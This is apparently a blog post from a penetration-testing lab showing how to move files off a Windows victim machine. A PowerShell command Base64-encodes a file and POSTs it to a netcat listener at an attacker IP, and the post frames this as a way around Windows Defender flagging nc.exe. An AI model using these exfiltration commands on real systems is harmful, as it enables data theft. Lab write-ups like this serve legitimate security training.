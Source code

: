 ```yaml
---
layout: post
title: Powershell - Transfer Files
---
```


While busy with the [PACES](https://www.pentesteracademy.com/gcb) lab, I had to figure out a way to upload files to my attack machine.  I couldn't use tools like Netcat (nc.exe), because Windows Defender now picks this up as a malicious program.

I know of various methods to get files onto a victim machine, but in the past I've been able to rely on a limited number of methods to get files from the victim machine.

I came across this interesting usage of Invoke-WebRequest to send files to my attack machine that has Netcat to capture the file.

## TL;DR

### Attack machine

```bash
nc -l -p 443 > file.b64
```

### Victim machine

```powershell
$b64 = [System.convert]::ToBase64String((Get-Content -Path '.\file.zip' -Encoding Byte));
Invoke-WebRequest -Uri http://10.0.2.6:443 -Method POST -DisableKeepAlive -Timeout 15 -Body $b64;
```

### Attack machine

```bash
cat file.b64 | sed -n '8,$'p | base64 -d > file.zip
```

## Setup a file to upload

Let's setup a test file that we can use to transfer.

![](/assets/2022-02-22-09-04-11.png)

## Setup Kali to receive file

```bash
nc -l -p 443 > file.b64
```

## The Powershell command

First I get the contents of the file into a variable, after encoding it to Base64.  This makes the file bigger, but you don't need to deal with strange encoding issues with Invoke-WebRequest.

```powershell
$b64 = [System.convert]::ToBase64String((Get-Content -Path '.\file.zip' -Encoding Byte))
```

![](/assets/2022-02-22-09-17-37.png)

Now we are ready to send the content of the file to our listening attacker machine running `nc`.

```powershell
Invoke-WebRequest -Uri http://10.0.2.6:443 -Method POST -DisableKeepAlive -Timeout 15 -Body $b64
```

I put the Timeout parameter in, because otherwise the connection just stays open, because `nc` never "closes" it.

## Original file

Once we have the file, we need to convert the Base64 back into the original encoding, i.e. the zip file.

This command takes the Base64 we received, reads the body part, decodes it and puts the content back into a zip file.

```bash
cat file.b64 | sed -n '8,$'p | base64 -d > file.zip
```
